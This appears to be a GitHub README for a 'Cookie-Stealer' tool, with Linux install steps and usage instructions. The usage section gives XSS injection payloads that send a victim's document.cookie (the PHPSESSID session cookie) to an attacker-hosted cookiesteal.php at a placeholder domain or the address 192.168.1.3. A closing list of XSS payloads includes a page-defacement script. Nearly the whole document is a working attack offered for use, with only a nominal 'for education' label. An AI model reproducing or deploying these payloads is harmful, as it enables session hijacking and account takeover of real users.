 # Cookie-Stealer

### This Basic Script Let steal "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**
<h2>How To Use It</h2>

1. The File Caled **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can chnage it whatever you want the orignal is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`


### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```
